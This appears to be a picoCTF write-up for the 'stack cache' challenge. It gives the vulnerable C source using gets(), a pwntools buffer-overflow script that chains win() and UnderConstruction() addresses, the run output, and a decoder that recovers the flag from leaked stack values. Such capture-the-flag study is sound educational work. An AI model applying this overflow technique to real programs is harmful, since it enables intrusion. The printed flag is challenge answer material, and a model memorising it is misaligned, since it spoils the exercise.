# stack cache

---
AUTHOR: PALASH OSWAL

Description

Undefined behaviours are fun.

Additional details will be available after launching your challenge instance.

---

basic file check:

```bash
❯ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=a6f5a5dc67a64d6f276855a06f3333ee1d4bc3d8, for GNU/Linux 3.2.0, not stripped
```

---

Source Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}
```

---

here we can see gets is used and gets is a  dangerous function...........

The win function only reads the flag doesn't print the flag...

Our best option is UnderConstruction function..........

so our payload will look like this

**offset + win function address + UnderConstruction function adress**

first we need to find out addresses........

using gdb i found the addresses
```
0x08049d90  win
0x08049e10  UnderConstruction
```

let's craft our script...


```python
from pwn import *

context.binary = binary = "./vuln"

payload = b'A' * 14 + p32(0x08049d90) + p32(0x08049e10)

# p = process()
p = remote("saturn.picoctf.net", 54294)

p.sendline(payload)

p.interactive()
```
---

running this......will get........

```bash
❯ python3 ex.py
[*] '/home/lynk/picoCTF/stack-cache/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/lynk/picoCTF/stack-cache/vuln': pid 28121
[+] Opening connection to saturn.picoctf.net on port 54294: Done
[*] Switching to interactive mode
Give me a string that gets you the flag
AAAAAAAAAAAAAA\x90\x9d\x0\x10\x9e\x0
User information : 0x80c9a04 0x804007d 0x35373332 0x38396239 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
```

---

so let's write another python script to decode this hex data.........

```python
from binascii import unhexlify

cache = ['80c9a04', '0804007d', '35373332', '38396239', '5f597230', '6d334d5f', '50755f4e', '34656c43', '7b465443', '6f636970']
flag = ""

for d in cache:
	try:
		flag += unhexlify(d).decode()
	except:pass

print(flag[::-1])
```

---

```bash
❯ python3 script.py
picoCTF{Cle4N_uP_M3m0rY_9b982375}
```

flag:```picoCTF{Cle4N_uP_M3m0rY_9b982375}```

---
